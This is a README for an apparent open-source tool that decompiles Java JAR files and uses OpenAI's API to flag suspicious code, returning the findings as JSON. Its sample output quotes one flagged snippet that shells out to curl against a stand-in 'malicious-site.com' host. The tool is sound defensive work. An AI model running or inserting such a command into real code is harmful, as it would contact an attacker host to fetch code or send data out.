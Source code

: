 # Java Security Analysis Project

This project provides an automated way to decompile Java JAR files, analyze the code for potential malicious patterns, and report findings. Using OpenAI's API, this tool reviews Java source code for suspicious elements that may warrant further manual inspection.

## Table of Contents
- [About the Project](#about-the-project)
- [Features](#features)
- [Prerequisites](#prerequisites)
- [Installation](#installation)
- [Usage](#usage)
- [Configuration](#configuration)
- [Contributing](#contributing)
- [License](#license)
- [Contact](#contact)

## About the Project
This project aims to streamline the analysis of Java JAR files by decompiling the code and then utilizing OpenAI's language models to detect suspicious patterns, potentially malicious code, and vulnerable areas that may need manual review. The results are returned in JSON format, specifying files and code snippets that may contain security risks.

## Features
- Automated decompilation of Java JAR files
- Recursive analysis of decompiled Java files
- Integration with OpenAI's API for detecting suspicious code patterns
- JSON output of analysis results, highlighting:
    - Files with potentially malicious code
    - Specific suspicious code blocks
    - Recommendation for manual review if needed

## Prerequisites
- **Java** (version 11 or higher)
- **Node.js** (version 20 or higher)
- OpenAI API key

## Installation
1. Clone this repository:
   ```bash
   git clone https://github.com/Naimadx123/jar-analysis.git
   cd jar-analysis
   ```
2. Install necessary Node.js packages:
   ```bash
   npm install
   ```
3. Place the `cfr.jar` (Java Decompiler) in the project root directory.

4. Create a `.env` file to store your OpenAI API key:
   ```bash
   echo "API_KEY=your_openai_api_key" > .env
   ```

## Usage
1. Run the analysis by specifying the path to the JAR file as an argument:
   ```bash
   node index.js /path_to_your_file/File.jar
   ```
2. The analysis results will be displayed in the console as JSON output.

### Sample Output
```json
[
  {
    "filename": "decompiled_code/com/example/MyClass.java",
    "positive": true,
    "should_be_checked": true,
    "suspicious_code_blocks": [
      "System.loadLibrary('native_lib')",
      "Runtime.getRuntime().exec('curl malicious-site.com')"
    ]
  }
]
```

## Configuration
The `.env` file should include your OpenAI API key:
```plaintext
API_KEY=your_openai_api_key
```

## How It Works
1. **Decompile JAR**: The specified JAR file is decompiled into Java source files.
2. **Recursive Analysis**: Each `.java` file is read and analyzed for malicious patterns.
3. **OpenAI Analysis**: The code content is sent to OpenAI's model, which identifies potential risks and returns structured results.
4. **Results JSON**: Files with suspicious content are flagged and details provided in JSON format.

## Contributing
Contributions are welcome! Please fork this repository and submit pull requests for review.

## License
Distributed under the MIT License. See `LICENSE` for more information.

## Contact
Project maintained by Naimad (discord: 4g0).
